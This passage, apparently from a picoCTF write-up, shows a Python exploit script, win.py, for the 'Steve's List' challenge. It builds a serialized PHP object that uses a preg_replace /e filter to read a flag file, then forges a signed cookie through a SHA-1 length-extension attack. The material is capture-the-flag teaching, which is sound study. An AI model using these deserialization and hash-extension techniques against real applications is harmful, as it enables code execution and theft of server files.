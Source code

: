 Below is the final product:

```python
$ cat win.py
import subprocess
import urllib
from pwn import *
import commands
import sys
import hlextend
import urllib2
import cookielib
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
flag_file = '/home/daedalus/flag.txt'
php_script = """
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
""".format(flag_file)

with open('phpscript.php', 'w') as f:
    f.write(php_script)

php_output = subprocess.check_output('php phpscript.php', shell=True, stderr=subprocess.STDOUT)
php_output = php_output.split('<')[0].split('\n')[1]

original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
# '\x0a' is our new line delimiter
appended_data = '\x0a' + php_output
key_length = 8

sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()
```